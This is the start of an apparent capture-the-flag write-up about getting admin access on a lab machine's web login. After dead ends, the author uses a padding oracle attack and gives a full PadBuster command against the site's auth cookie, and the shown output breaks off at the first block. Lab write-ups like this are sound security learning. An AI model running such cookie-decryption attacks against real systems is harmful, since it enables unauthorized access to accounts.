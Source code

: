 
## Login as Admin:

While accessing port 80 gave us something like,


![](https://paper-attachments.dropbox.com/s_0D7F007F40F0D6C127E0E610A9E236E2412E24E3D9F3E16A5F441EA21AE79E33_1595488761267_Screenshot+2020-07-23+at+12.49.13+PM.png)


Lets register ourself and check whats inside there,

![](https://paper-attachments.dropbox.com/s_0D7F007F40F0D6C127E0E610A9E236E2412E24E3D9F3E16A5F441EA21AE79E33_1595488812075_Screenshot+2020-07-23+at+12.50.03+PM.png)


NOTHING!!!

So our next step would be scanning all directories which are available there, but sorry another dead end.

After some time failures i found out something interesting


![](https://paper-attachments.dropbox.com/s_0D7F007F40F0D6C127E0E610A9E236E2412E24E3D9F3E16A5F441EA21AE79E33_1595488989960_Screenshot+2020-07-23+at+12.52.32+PM.png)


Since i m running out of options i have to try every possible way, So without any hesitation i put those keywords in Google

Ahaa!!


![](https://paper-attachments.dropbox.com/s_0D7F007F40F0D6C127E0E610A9E236E2412E24E3D9F3E16A5F441EA21AE79E33_1595489126476_Screenshot+2020-07-23+at+12.55.07+PM.png)


So i knew one thing for sure that we are in right path,

After a small surfing found a very useful article about [Padding Oracle Attack](https://blog.gdssecurity.com/labs/2010/9/14/automated-padding-oracle-attacks-with-padbuster.html) and  [Padbuster](https://tools.kali.org/web-applications/padbuster)


    padbuster http://10.10.10.18/login.php E050Yqtgn8a3V%2B%2F%2BR%2FbO6K8idG81xf2L 8 --cookie auth=E050Yqtgn8a3V%2B%2F%2BR%2FbO6K8idG81xf2L --encoding 0


    +-------------------------------------------+
    | PadBuster - v0.3.3                        |
    | Brian Holyfield - Gotham Digital Science  |
    | labs@gdssecurity.com                      |
    +-------------------------------------------+
    
    INFO: The original request returned the following
    [+] Status: 200
    [+] Location: N/A
    [+] Content Length: 1486
    
    INFO: Starting PadBuster Decrypt Mode
    *** Starting Block 1 of 2 ***
    
